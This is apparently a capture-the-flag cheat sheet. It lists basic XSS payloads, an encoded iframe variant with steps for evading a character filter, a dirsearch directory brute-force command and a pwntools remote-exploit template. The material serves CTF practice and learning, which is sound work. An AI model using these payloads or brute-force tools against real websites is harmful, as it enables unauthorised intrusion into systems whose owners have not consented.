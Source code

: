 ## :sun_with_face: Web Scripts

1. **`view-source:<your_url>`: View source code of a website**
2. **`"><svg/onload=alert(1)>`: [XSS] Popup Alert Basic** 
3. **`"><iframe srcdoc="%3Csvg%2F%26%23x6f%3Bnload%3Dalert%281%29%3E"><"`: [XSS] Popup Alert Advanced**
   - `srcdoc` specifies the HTML content in iframe
   - insert `<svg/onload=alert(1)>` but found that `o` will be replaced
   - change `o` to `&#x6f;` with the `hex(ord('o'))` Python command
   - url encode `<svg/&#x6f;nload=alert(1)>` at [URLEncoder](https://www.urlencoder.org/)
4. **`<a href="your_url" target="<script>alert(1)</script>">click</a>`: [XSS] When the `name` variable is in the html content**
   - the value of the target attribute will be stored at `window.name` or the `name` variable.

## :sun_with_face: Useful Python Libraries & Scripts

1. **[dirsearch](https://github.com/maurosoria/dirsearch): A CLI to brute force directories and files in websites.**

```
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
python3 dirsearch.py -u <URL> -e <EXTENSION>
```

2. **[Pwn](https://en.wikipedia.org/wiki/Pwn): Compromise a program by gaining ownership of it.**

- Follow installation steps on [Pwntools GitHub](https://github.com/Gallopsled/pwntools#installation)
- In most cases, the flag can be found in the interactive console by `ls` and then `cat flag.txt`.
- Example:

```python
from pwn import *

# remember to change the values here
HOST = "<ip.address>"
PORT = <port_number>

# connect to the remote server and define our value to send
r = remote(HOST, PORT)
# For reading local binaries:
# r = process('./<executable_binary>')

something_to_send = 0xfaceb00c

# Usually there is a newline before the user input, so receive until '\n'
r.recvuntil('\n')

# stop and listen to user input in the console, press enter to continue
raw_input()

r.sendline(p32(something_to_send))
# use r.send() to send without a new line
# use p32 to encode the hex value as 32-bit char and p64 for 64-bit char

# enter the interactive console
r.interactive()
```
